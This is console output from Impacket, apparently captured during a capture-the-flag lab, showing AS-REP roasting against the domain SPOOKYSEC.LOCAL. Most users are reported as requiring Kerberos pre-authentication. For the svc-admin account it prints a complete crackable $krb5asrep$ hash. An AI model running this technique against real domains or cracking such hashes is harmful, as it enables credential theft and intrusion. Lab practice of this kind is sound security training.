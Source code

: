 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for james
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a62b3e222e0d3c35bce7a685b4e332dd$ccb1c93ab7f0a6b21f426ca4a67c488677caae78fe4b02284afbcf9bba0309ea810e20ed5b011c29c7f0a47ef7e8afdb96ab97d3aabc609c05d302ff3d597f49087aa1d2763f7066f8e033e0b351c6ca4805340ec3efff6407015c0cfe778872fe3e2e280ee10117a489767f381ac9e41e1bd36c2e1e9960d6b267c3ba540d6ca66850c98db16e2d8a2bb90081d618b814041ef42873b985d51c78e649a1230d6b2f282910e4f1c572311473aacba59d3e7d2dde5f43e7a3ba99c14860251c411a9e58f2109060a13db2373effb640bbe6b03993918fb402d21e20f1e53e2f070d56c28934d631955dc2abe44cb848e1c36f


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for robin
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for darkstar
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for administrator
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for paradox
[-] User paradox doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for JAMES
[-] User JAMES doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for Robin
[-] User Robin doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for Darkstar
[-] User Darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for Paradox
[-] User Paradox doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for DARKSTAR
[-] User DARKSTAR doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for ori
[-] User ori doesn't have UF_DONT_REQUIRE_PREAUTH set


Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for ROBIN
[-] User ROBIN doesn't have UF_DONT_REQUIRE_PREAUTH set

